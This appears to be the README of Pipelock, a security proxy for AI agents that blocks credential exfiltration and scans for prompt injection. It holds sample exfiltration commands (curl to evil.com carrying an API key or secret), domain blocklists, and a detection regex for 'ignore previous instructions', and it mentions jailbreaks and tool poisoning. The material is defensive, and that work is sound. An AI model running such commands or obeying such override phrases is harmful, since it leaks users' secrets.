

<p align="center">
  
</p>

# Pipelock

[](https://github.com/luckyPipewrench/pipelock/actions/workflows/ci.yaml)
[](https://goreportcard.com/report/github.com/luckyPipewrench/pipelock)
[](https://github.com/luckyPipewrench/pipelock/actions/workflows/security.yaml)
[](https://scorecard.dev/viewer/?uri=github.com/luckyPipewrench/pipelock)
[](https://www.bestpractices.dev/projects/11948)
[](https://codecov.io/gh/luckyPipewrench/pipelock)
[](https://opensource.org/licenses/Apache-2.0)

**All-in-one security harness for AI agents.** Single static binary, no runtime dependencies. Controls network egress, detects credential exfiltration, scans for prompt injection, and monitors workspace integrity.

If you run Claude Code, OpenHands, or any AI agent with shell access and API keys, this is for you.

[Blog](https://pipelab.org/blog/) | [OWASP Coverage](docs/owasp-mapping.md) | [Tool Comparison](docs/comparison.md)

> If Pipelock is useful, a [star](https://github.com/luckyPipewrench/pipelock) helps others find it.

[](https://asciinema.org/a/I1UzzECkeCBx6p42)

## The Problem

AI agents run with shell access, API keys in environment, and unrestricted internet. A compromised agent can exfiltrate secrets with one HTTP request:

```
curl "https://evil.com/steal?key=$ANTHROPIC_API_KEY"   # game over
```

## The Solution

Pipelock uses **capability separation** — the agent process (which has secrets) is network-restricted, while a separate fetch proxy (which has NO secrets) handles web browsing. Every request goes through a 9-layer scanner pipeline.



<details>
<summary>Text diagram (for terminals / non-mermaid renderers)</summary>

```
┌──────────────────────┐         ┌─────────────────────┐
│  PRIVILEGED ZONE     │         │  FETCH ZONE          │
│                      │         │                      │
│  AI Agent            │  IPC    │  Fetch Proxy         │
│  - Has API keys      │────────>│  - NO secrets        │
│  - Has credentials   │ "fetch  │  - Full internet     │
│  - Restricted network│  url"   │  - Returns text      │
│                      │<────────│  - URL scanning      │
│  Can reach:          │ content │  - Audit logging     │
│  ✓ api.anthropic.com │         │                      │
│  ✓ discord.com       │         │  Can reach:          │
│  ✗ evil.com          │         │  ✓ Any URL           │
│  ✗ pastebin.com      │         │  But has:            │
└──────────────────────┘         │  ✗ No env secrets    │
                                 │  ✗ No credentials    │
                                 └─────────────────────┘
```

</details>

## Why Pipelock?

| | Pipelock | Scanners (mcp-scan) | Sandboxes (srt) | Kernel agents (agentsh) |
|---|---|---|---|---|
| Secret exfiltration prevention | Yes | No | Partial (domain-level) | Yes |
| DLP + entropy analysis | Yes | No | No | Partial |
| Prompt injection detection | Yes | Yes | No | No |
| Workspace integrity monitoring | Yes | No | No | Partial |
| MCP scanning (bidirectional + tool poisoning) | Yes | Yes | No | No |
| Single binary, zero deps | Yes | No (Python) | No (npm) | No (kernel modules) |
| Audit logging + Prometheus | Yes | No | No | No |

Full comparison: [docs/comparison.md](docs/comparison.md)

## Quick Start

```bash
# Install (requires Go 1.24+)
go install github.com/luckyPipewrench/pipelock/cmd/pipelock@latest

# Scan your project and generate a tailored config
pipelock audit . -o pipelock.yaml

# Start the proxy
pipelock run --config pipelock.yaml

# Test: this should be blocked
pipelock check --url "https://pastebin.com/raw/abc123"
```

Or with Docker:

```bash
docker pull ghcr.io/luckypipewrench/pipelock:latest
docker run -p 8888:8888 -v ./pipelock.yaml:/config/pipelock.yaml:ro \
  ghcr.io/luckypipewrench/pipelock:latest \
  run --config /config/pipelock.yaml --listen 0.0.0.0:8888
```

### Verify Release Integrity

Every release includes SLSA build provenance and an SBOM (CycloneDX). Verify with the GitHub CLI:

```bash
# Verify a downloaded binary
gh attestation verify pipelock_*_linux_amd64.tar.gz --owner luckyPipewrench

# Verify the container image (substitute the release version)
gh attestation verify oci://ghcr.io/luckypipewrench/pipelock:<version> --owner luckyPipewrench
```

## OWASP Agentic Top 10 Coverage

| Threat | Coverage |
|--------|----------|
| ASI01 Agent Goal Hijack | **Strong** - bidirectional MCP + response scanning |
| ASI02 Tool Misuse | **Partial** - proxy as controlled tool, MCP scanning |
| ASI03 Identity & Privilege Abuse | **Strong** - capability separation + SSRF protection |
| ASI04 Supply Chain Vulnerabilities | **Partial** - integrity monitoring + MCP scanning |
| ASI05 Unexpected Code Execution | **Moderate** - HITL approval, fail-closed defaults |
| ASI06 Memory & Context Poisoning | **Moderate** - injection detection on fetched content |
| ASI07 Insecure Inter-Agent Communication | **Partial** - agent ID, integrity, signing |
| ASI08 Cascading Failures | **Moderate** - fail-closed architecture, rate limiting |
| ASI09 Human-Agent Trust Exploitation | **Partial** - HITL modes, audit logging |
| ASI10 Rogue Agents | **Strong** - domain allowlist + rate limiting + capability separation |

Details, config examples, and gap analysis: [docs/owasp-mapping.md](docs/owasp-mapping.md)

## Three Modes

| Mode | Security | Web Browsing | Use Case |
|------|----------|--------------|----------|
| **strict** | Airtight | None | Regulated industries, high-security |
| **balanced** | Blocks naive + detects sophisticated | Via fetch proxy | Most developers (default) |
| **audit** | Logging only | Unrestricted | Evaluation before enforcement |

## Security Matrix

What each mode prevents, detects, or logs:

| Attack Vector | Strict | Balanced | Audit |
|---------------|--------|----------|-------|
| `curl evil.com -d $SECRET` | **Prevented** | **Prevented** | Logged |
| Secret in URL query params | **Prevented** | **Detected** (DLP scan) | Logged |
| Base64-encoded secret in URL | **Prevented** | **Detected** (entropy scan) | Logged |
| DNS tunneling | **Prevented** | **Prevented** (restricted DNS) | Logged |
| Chunked exfiltration | **Prevented** | **Detected** (rate limiting) | Logged |
| Public-key encrypted blob in URL | **Prevented** | Logged (entropy flags it) | Logged |

> **Honest assessment:** Strict mode provides mathematical certainty. Balanced mode raises the bar from "one curl command" to "sophisticated pre-planned attack." Audit mode gives you visibility you don't have today.

## Features

### Project Audit

Scan any project directory to detect security risks and generate a tailored config:

```bash
pipelock audit ./my-project -o pipelock-suggested.yaml
```

Detects agent type (Claude Code, Cursor, CrewAI, LangGraph, AutoGen), programming languages, package ecosystems, MCP servers, and secrets in environment variables and config files. Outputs a security score and a suggested config file tuned for your project.

### URL Scanning

The fetch proxy runs a 9-layer scanner pipeline on every request:

1. **Scheme validation** — enforces http/https only
2. **Domain blocklist** — blocks known exfiltration targets (pastebin, transfer.sh). Pre-DNS.
3. **DLP patterns** — regex matching for API keys, tokens, and secrets (includes env variable leak detection: raw + base64, values 16+ chars with entropy > 3.0). Pre-DNS to prevent secret exfiltration via DNS queries.
4. **Path entropy analysis** — Shannon entropy flags encoded/encrypted data in URL path segments
5. **Subdomain entropy analysis** — flags high-entropy subdomains used for DNS exfiltration
6. **SSRF protection** — blocks internal/private IPs with DNS rebinding prevention. Post-DNS, safe after DLP.
7. **Rate limiting** — per-domain sliding window
8. **URL length limits** — unusually long URLs suggest data exfiltration
9. **Data budget** — per-domain byte limits prevent slow-drip exfiltration across many requests

### Response Scanning

Fetched content is scanned for prompt injection before reaching the agent:

- **Prompt injection** — "ignore previous instructions" and variants
- **System/role overrides** — attempts to hijack system prompts
- **Jailbreak attempts** — DAN mode, developer mode, etc.

Actions: `block` (reject entirely), `strip` (redact matched text), `warn` (log and pass through), `ask` (terminal y/N/s prompt with timeout — requires TTY)

### File Integrity Monitoring

```bash
pipelock integrity init ./workspace --exclude "logs/**"
pipelock integrity check ./workspace         # exit 0 = clean
pipelock integrity check ./workspace --json  # machine-readable
pipelock integrity update ./workspace        # re-hash after review
```

SHA256 manifests detect modified, added, or removed files. See [lateral movement in multi-agent systems](https://pipelab.org/blog/lateral-movement-multi-agent-llm/).

### Git Protection

```bash
git diff HEAD~1 | pipelock git scan-diff             # scan for secrets in unified diff
pipelock git install-hooks --config pipelock.yaml     # pre-push hook
```

Input must be unified diff format (with `+++ b/filename` headers and `+` lines). Plain text won't match.

### Ed25519 Signing

```bash
pipelock keygen my-bot                         # generate key pair
pipelock sign manifest.json --agent my-bot     # sign a file
pipelock verify manifest.json --agent my-bot   # verify signature
pipelock trust other-bot /path/to/other-bot.pub  # trust a peer
```

Keys stored under `~/.pipelock/agents/` and `~/.pipelock/trusted_keys/`.

### MCP Proxy + Bidirectional Scanning

Wrap any MCP server as a stdio proxy. Pipelock scans both directions: client requests are checked for DLP leaks and injection in tool arguments, server responses are scanned for prompt injection, and `tools/list` responses are checked for poisoned tool descriptions and rug-pull definition changes:

```bash
# Wrap an MCP server (use in .mcp.json for Claude Code)
pipelock mcp proxy --config pipelock.yaml -- npx -y @modelcontextprotocol/server-filesystem /tmp

# Batch scan (stdin)
mcp-server | pipelock mcp scan
pipelock mcp scan --json --config pipelock.yaml < responses.jsonl
```

Catches injection split across content blocks. Exit 0 if clean, 1 if injection detected.

### Multi-Agent Support

Each agent identifies itself via `X-Pipelock-Agent` header (or `?agent=` query parameter). All audit logs include the agent name for per-agent filtering.

```bash
curl -H "X-Pipelock-Agent: my-bot" "http://localhost:8888/fetch?url=https://example.com"
```

## Configuration

```yaml
version: 1
mode: balanced
enforce: true              # set false for audit mode (log without blocking)

api_allowlist:
  - "*.anthropic.com"
  - "*.openai.com"
  - "*.discord.com"
  - "github.com"

fetch_proxy:
  listen: "127.0.0.1:8888"
  timeout_seconds: 30
  max_response_mb: 10
  user_agent: "Pipelock Fetch/1.0"
  monitoring:
    entropy_threshold: 4.5
    max_url_length: 2048
    max_requests_per_minute: 60
    blocklist:
      - "*.pastebin.com"
      - "*.transfer.sh"

dlp:
  scan_env: true
  patterns:
    - name: "Anthropic API Key"
      regex: 'sk-ant-[a-zA-Z0-9\-_]{20,}'
      severity: critical
    - name: "AWS Access Key"
      regex: 'AKIA[0-9A-Z]{16}'
      severity: critical

response_scanning:
  enabled: true
  action: warn               # block, strip, warn, or ask (HITL)
  patterns:
    - name: "Prompt Injection"
      regex: '(?i)(ignore|disregard)\s+(all\s+)?(previous|prior)\s+(instructions|prompts)'

mcp_input_scanning:
  enabled: true
  action: warn               # block or warn (auto-enabled for mcp proxy)
  on_parse_error: block      # block or forward

mcp_tool_scanning:
  enabled: true
  action: warn               # block or warn (auto-enabled for mcp proxy)
  detect_drift: true         # alert on tool description changes mid-session

logging:
  format: json
  output: stdout
  include_allowed: true
  include_blocked: true

internal:
  - "127.0.0.0/8"
  - "10.0.0.0/8"
  - "172.16.0.0/12"
  - "192.168.0.0/16"
  - "169.254.0.0/16"
  - "::1/128"
  - "fc00::/7"
  - "fe80::/10"

git_protection:
  enabled: false
  allowed_branches: ["feature/*", "fix/*", "main"]
  pre_push_scan: true
```

### Presets

| Preset | Mode | Action | Best For |
|--------|------|--------|----------|
| `configs/balanced.yaml` | balanced | warn | General purpose |
| `configs/strict.yaml` | strict | block | High-security environments |
| `configs/audit.yaml` | audit | warn | Log-only monitoring |
| `configs/claude-code.yaml` | balanced | block | Claude Code (unattended) |
| `configs/cursor.yaml` | balanced | block | Cursor IDE (unattended) |
| `configs/generic-agent.yaml` | balanced | warn | New agents (tuning phase) |

## Integration Guides

- **[Claude Code](docs/guides/claude-code.md)** — MCP proxy setup, `.claude.json` configuration, HTTP fetch proxy hooks
- **[OpenAI Agents SDK](docs/guides/openai-agents.md)** — `MCPServerStdio`, multi-agent handoffs, Docker Compose
- **[Google ADK](docs/guides/google-adk.md)** — `McpToolset`, `StdioConnectionParams`, sub-agents
- **[AutoGen](docs/guides/autogen.md)** — `StdioServerParams`, `mcp_server_tools()`, multi-agent teams
- **[CrewAI](docs/guides/crewai.md)** — `MCPServerStdio` wrapping, `MCPServerAdapter`, Docker Compose
- **[LangGraph](docs/guides/langgraph.md)** — `MultiServerMCPClient`, `StateGraph`, Docker deployment
- Cursor — use `configs/cursor.yaml` with the same MCP proxy pattern as [Claude Code](docs/guides/claude-code.md)

## CI/CD Usage

```yaml
# .github/workflows/agent-security.yaml
name: Agent Security
on: [push]
jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0
      - uses: actions/setup-go@v5
        with:
          go-version: '1.24'
      - run: go install github.com/luckyPipewrench/pipelock/cmd/pipelock@latest
      - name: Check config
        run: pipelock check --config pipelock.yaml
      - name: Scan diff for secrets
        run: git diff origin/main...HEAD | pipelock git scan-diff --config pipelock.yaml
      - name: Verify workspace integrity
        run: pipelock integrity check ./
```

## Docker

```bash
# Pull from GHCR
docker pull ghcr.io/luckypipewrench/pipelock:latest
docker run -p 8888:8888 ghcr.io/luckypipewrench/pipelock:latest

# Build locally
docker build -t pipelock .
docker run -p 8888:8888 pipelock

# Network-isolated agent (Docker Compose)
pipelock generate docker-compose --agent claude-code -o docker-compose.yaml
docker compose up
```

The generated compose file creates two containers: **pipelock** (fetch proxy with internet) and **agent** (your AI agent on an internal-only network, can only reach pipelock).

## API Reference

<details>
<summary>Fetch proxy endpoints</summary>

```bash
# Fetch a URL (returns extracted text content)
curl "http://localhost:8888/fetch?url=https://example.com"

# Health check
curl "http://localhost:8888/health"

# Prometheus metrics
curl "http://localhost:8888/metrics"

# JSON stats (top blocked domains, scanner hits, block rate)
curl "http://localhost:8888/stats"
```

**Fetch response:**
```json
{
  "url": "https://example.com",
  "agent": "my-bot",
  "status_code": 200,
  "content_type": "text/html",
  "title": "Example Domain",
  "content": "This domain is for use in illustrative examples...",
  "blocked": false
}
```

**Health response:**
```json
{
  "status": "healthy",
  "version": "x.y.z",
  "mode": "balanced",
  "uptime_seconds": 3600.5,
  "dlp_patterns": 8,
  "response_scan_enabled": true,
  "git_protection_enabled": false,
  "rate_limit_enabled": true
}
```

**Stats response:**
```json
{
  "uptime_seconds": 3600.5,
  "requests": {
    "total": 150,
    "allowed": 142,
    "blocked": 8,
    "block_rate": 0.053
  },
  "top_blocked_domains": [
    {"name": "pastebin.com", "count": 5},
    {"name": "transfer.sh", "count": 3}
  ],
  "top_scanners": [
    {"name": "blocklist", "count": 5},
    {"name": "dlp", "count": 3}
  ]
}
```

</details>

## Building

```bash
make build    # Build with version metadata
make test     # Run tests
make lint     # Lint
make docker   # Build Docker image
```

## Project Structure

```
cmd/pipelock/          CLI entry point
internal/
  cli/                 Cobra commands (run, check, generate, logs, git, integrity, mcp,
                         keygen, sign, verify, trust, version, healthcheck)
  config/              YAML config loading, validation, defaults, hot-reload (fsnotify)
  scanner/             URL scanning (SSRF, blocklist, rate limit, DLP, entropy, env leak)
  audit/               Structured JSON audit logging (zerolog)
  proxy/               Fetch proxy HTTP server (go-readability, agent ID, DNS pinning)
  metrics/             Prometheus metrics + JSON stats endpoint
  gitprotect/          Git-aware security (diff scanning, branch validation, hooks)
  integrity/           File integrity monitoring (SHA256 manifests, check/diff, exclusions)
  signing/             Ed25519 key management, file signing, signature verification
  mcp/                 MCP stdio proxy + bidirectional JSON-RPC 2.0 scanning + tool poisoning detection
  hitl/                Human-in-the-loop terminal approval (ask action)
configs/               Preset config files (strict, balanced, audit, claude-code, cursor, generic-agent)
docs/                  OWASP mapping, tool comparison
blog/                  Blog posts (mirrored at pipelab.org/blog/)
```

## Credits

- Architecture influenced by [Anthropic's Claude Code sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing) and [sandbox-runtime](https://github.com/anthropic-experimental/sandbox-runtime)
- Threat model informed by [OWASP Agentic AI Top 10](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)
- See [docs/comparison.md](docs/comparison.md) for how Pipelock relates to [AIP](https://github.com/ArangoGutierrez/agent-identity-protocol), [agentsh](https://github.com/canyonroad/agentsh), and [srt](https://github.com/anthropic-experimental/sandbox-runtime)
- Security review contributions from Dylan Corrales

## License

Apache License 2.0 — Copyright 2026 Josh Waldrep

See [LICENSE](LICENSE) for the full text.
